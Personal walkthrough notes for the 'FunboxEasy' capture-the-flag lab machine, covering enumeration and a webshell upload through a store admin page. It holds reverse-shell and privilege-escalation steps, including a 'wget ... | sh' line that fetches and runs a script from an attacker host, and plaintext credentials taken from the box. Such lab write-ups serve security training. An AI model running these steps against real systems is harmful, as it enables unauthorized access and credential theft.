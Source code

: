 # FunboxEasy Notes

### Enumeration
- whatweb
	- Apache 
	- Ubuntu OS

- Nmap 
	- quick scan 
		- 80 -> HTTP (Apache httpd 2.4.41)
		- 22 -> SSH (OpenSSH 8.2p1)
	- full-scan (additional found)
		- 33060 -> MySQL??

- uniscan
	- /admin
		- index
		- home
	- /secret
	- potential SQLi's:
		- /store/book.php

- Manual inspection
	- looks like it was made by project world
		- googling project world shows the credentials are admin:admin t the store admin page

### Foothold
- got access to the /store/admin with admin:admin
- the add book functionality allows the upload of a image
	- allowed to upload a webshell -> /usr/share/webshells/php/simple-backdoor.php
- use burp to figure out where the img is being up 
	- browse to location with ?cmd=ls 
	- which nc shows the machine has nc 

- ../../database/readme.txt.txt
	- from ../../../dbconnection.php -> localhost, crm, crm, crm
	- email: nghi.lethanh2@cou.fi

- use the same process to upload a revshell
	- /usr/share/webshells/php/php-rev-shell.php

#### Priv Esc 
- on the machine: 
	- upgrade shell
		-  ```$ which python3 
			/usr/bin/python3
			$ python3 -c "import pty; pty.spawn('/bin/bash');"```
 - run linpeas: 
	 - start python server in dir with linpeas: 
		- ```python -m http.server 80```
	- get linpeas from host machine and pipe to sh: 
		- ```wget http://192.168.49.196/linpeas.sh | sh ```
		- shows interesting user 'tony' on system 
- go to /home/tony 
	- can see the file password.txt
		- all creds in file: 
			- ssh: yxcvbnmYYY
			- gym/admin: asdfghjklXXX
			- /store: admin@admin.com admin

- ssh -> tony@{ip}
	- sudo -l 
		- check gtfobins
			- sudo pkexec /bin/sh 
- proof.txt file: 
	- ![[Pasted image 20220412162128.png]]

